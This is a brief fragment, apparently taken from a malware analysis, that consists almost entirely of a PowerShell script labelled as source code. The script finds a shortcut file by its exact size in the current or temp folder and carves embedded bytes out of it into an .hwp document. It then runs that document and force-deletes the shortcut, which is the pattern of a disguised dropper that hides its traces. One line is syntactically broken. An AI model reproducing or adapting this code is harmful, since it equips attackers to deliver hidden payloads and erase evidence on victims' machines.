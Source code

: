 $lk=ls -Path '.\' ;
$lk= Where {$lk.length -eq 56397};
if($lk -eq $null) {$lk=ls -Path $env:temp -depth 2 | Where {$_.length -eq 56397}};$n=$lk.name.Replace('.lnk','.hwp');$lk=$lk.FullName;$file = [System.IO.File]::ReadAllBytes($lk);$file1=[byte[]]$file[5709..(5709+50688-1)];$fPath=$lk.Replace('.lnk','.hwp');[System.IO.File]::WriteAllBytes($fPath,$file1);&$fPath;ri $lk -force;






